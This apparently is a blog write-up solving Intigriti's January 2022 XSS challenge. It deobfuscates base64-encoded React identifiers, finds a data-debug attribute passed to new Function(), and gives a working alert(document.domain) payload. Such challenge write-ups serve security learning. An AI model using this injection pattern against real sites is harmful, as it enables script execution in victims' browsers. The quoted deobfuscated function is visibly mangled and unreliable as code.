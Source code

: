```yaml
---
title: "This is how I solved the January XSS challenge @ intigriti.com"
date: 2022-01-18T13:26:17+02:00
---
```



**Challenge**: `https://challenge-0122.intigriti.io/`

This challenge was very interesting because it was my first time hunting for an XSS while having to deal with React and some strange javascript obfuscation that I'd have to figure out first.

## Recon

I initially started looking at the javascript code by using the `Developers Tools` in `Chrome` and I noticed that the  `identifiers`  object was defined in  **_routes.js_**.

After I looked closely, I noticed that the values of the object's properties are BASE64 encoded strings.

![Source Map](/images/intigriti-jan-xss-challenge-2022/identifiers.jpg)

## Figuring out obfuscation

I navigated under `js/pages/` and found out that the code there is obfuscated and that the signatures of the functions contain property names from our `identifiers` object and that `window.atob()` is used to decode the BASE64 encoded values.

![Obfuscated code](/images/intigriti-jan-xss-challenge-2022/pages.jpg)

For decoding all the BASE64 encoded strings I wrote some easy javascript code which can be ran in browser's console.

```javascript
const identifiers = {
  I0x1: "UmVzdWx0",
  I0x2: "cGF5bG9hZEZyb21Vcmw=",
  I0x3: "cXVlcnlSZXN1bHQ=",
  I0x4: "bG9jYXRpb24=",
  I0x5: "c2VhcmNo",
  I0x6: "Z2V0",
  I0x7: "cGF5bG9hZA==",
  I0x8: "cmVzdWx0",
  I0x9: "X19odG1s",
  I0xA: "PGgxIHN0eWxlPSdjb2xvcjogIzAwYmZhNSc+Tm90aGluZyBoZXJlITwvaDE+",
  I0xB: "aGFuZGxlQXR0cmlidXRlcw==",
  I0xC: "ZWxlbWVudA==",
  I0xD: "Y2hpbGQ=",
  I0xE: "Y2hpbGRyZW4=",
  I0xF: "YXR0cmlidXRlcw==",
  I0x10: "Z2V0QXR0cmlidXRl",
  I0x11: "ZGF0YS1kZWJ1Zw==",
  I0x12: "c2FuaXRpemVIVE1M",
  I0x13: "aHRtbE9iag==",
  I0x14: "dGVtcGxhdGU=",
  I0x15: "c2FuaXRpemU=",
  I0x16: "Y3JlYXRlRWxlbWVudA==",
  I0x17: "aW5uZXJIVE1M",
  I0x18: "YXBwZW5kQ2hpbGQ=",
  I0x19: "Z2V0RWxlbWVudHNCeVRhZ05hbWU=",
  I0x1A: "Y29udGVudA==",
  I0x1B: "cmVtb3ZlQ2hpbGQ=",
  I0x1C: "SG9tZQ==",
  I0x1D: "c2V0UGF5bG9hZA==",
  I0x1E: "ZWRpdG9yUmVm",
  I0x1F: "bmF2aWdhdGU=",
  I0x20: "aGFuZGxlU3VibWl0",
  I0x21: "ZXZlbnQ=",
  I0x22: "cHJldmVudERlZmF1bHQ=",
  I0x23: "L3Jlc3VsdD9wYXlsb2FkPQ==",
  I0x24: "dmFsdWU=",
  I0x25: "a2V5",
  I0x26: "VGFi",
  I0x27: "c2hpZnRLZXk=",
  I0x28: "c2V0UmFuZ2VUZXh0",
  I0x29: "ICAgIA==",
  I0x2A: "c2VsZWN0aW9uU3RhcnQ=",
  I0x2B: "ZW5k",
  I0x2C: "bGluZVN0YXJ0",
  I0x2D: "c3RhcnQ=",
  I0x2E: "bGVuZ3Ro",
  I0x2F: "c2xpY2U=",
  I0x30: "c2V0U2VsZWN0aW9uUmFuZ2U=",
  I0x31: "Cg==",
  I0x32: "Ym9keQ==",
  I0x33: "dGFyZ2V0",
  I0x34: "Y3VycmVudA==",
};

Object.keys(identifiers).reduce((acc, key) => { acc[key] = window.atob(identifiers[key]); return acc }, {});
```

We passed a reducer to the [reduce()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce) function which decodes the BASE64 values from `identifiers` and then returns a transformed object which will help us with the deobfuscation.

And here's how it should look for you.

![Decoded Strings](/images/intigriti-jan-xss-challenge-2022/decoded.jpg)

I thought about writing a tool for mass deobfuscation, but since there were only a couple of javascript files it took me only a few minutes to deobfuscate both `index.js` files under `pages` and figure out this whole challenge.

After manually deobfuscating all the interesting files, I found the issue under `/js/pages/I0x1/index.js`.

The function signature `function I0xB(I0xC)` translates to `function handleAttributes(element)`:

```javascript
function handleAttributes(element) {
  for (const child of child['children']) {
    if ("data-debug" in child['attributes']) {
      new Function(
        child 'getAttribute'
      )();
    }

    handleAttributes(child);
  }
}
```

## Identify XSS

Hm... So, when this `handleAttributes` function is called by passing an `element` as an argument, if there's a `data-debug` attribute set on any of the child elements then a new function is created using [new Function()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function) and the official documentation suggests that calling the constructor directly is not exactly a best practice.

> The Function constructor creates a new Function object. Calling the constructor directly can create functions dynamically, but suffers from security and similar (but far less significant) performance issues to [Global_Objects/eval](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval). However, unlike eval, the Function constructor creates functions which execute in the global scope only.

## Exploit flaw

Now that I knew I had to play around with the `data-debug` attribute, I had to set it to something which would give us the desired result, so I managed to use the `<h1>` HTML tag which is used to display a successful result.

So, here's my payload which triggers `alert(document.domain)` and then the HTML element will display the message `Yay!` on page:

**Payload**: `<h1 style='color: #00bfa5' data-debug='javascript:alert(document.domain)'>Yay!</h1>`

**Browser versions (latest):**

- Chrome: Version 97.0.4692.71 (Official Build) (64-bit)

- Firefox: 96.0

## Results

### Chrome

![Chrome](/images/intigriti-jan-xss-challenge-2022/chrome.jpg)

### Firefox

![Firefox](/images/intigriti-jan-xss-challenge-2022/firefox.jpg)

## Surprise

So, after you click the `OK` button from the alert dialog it closes and you get a `Yay!` message because everything worked as expected.

![Yay](/images/intigriti-jan-xss-challenge-2022/yay.jpg)

Thank you for reading my write-up!

Hope you enjoyed it. :)

